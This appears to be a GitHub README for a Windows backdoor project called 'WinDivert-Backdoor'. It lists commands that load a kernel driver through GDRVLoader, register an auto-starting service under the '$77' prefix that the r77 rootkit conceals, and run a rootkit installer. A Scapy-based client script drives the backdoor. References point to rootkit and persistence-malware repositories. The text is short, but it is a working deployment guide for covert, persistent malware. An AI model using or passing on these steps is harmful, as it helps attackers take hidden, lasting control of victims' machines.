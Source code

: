# WinDivert-Backdoor
## Server
1. Install driver with GDRVLoader.exe </br>
`GDRVLoader.exe C:\$77folder\$77kernel.sys` 
3. Install service </br>
`sc create $77service binPath= "C:\$77folder\$77service.exe" start= auto`
5. Start service </br>
`sc start $77service`
6. Install rootkit </br>
`Install.exe`
## Client
1. [Install Scapy](https://scapy.readthedocs.io/en/latest/installation.html)
2. Download client.py script
3. Flourish

## References
https://github.com/zer0condition/GDRVLoader
https://github.com/zer0condition/GDRVLoader
https://github.com/basil00/Divert
https://github.com/cocomelonc/2022-05-09-malware-pers-4/tree/master
https://github.com/r-a303931/pcap-backdoor
https://github.com/bytecode77/r77-rootkit
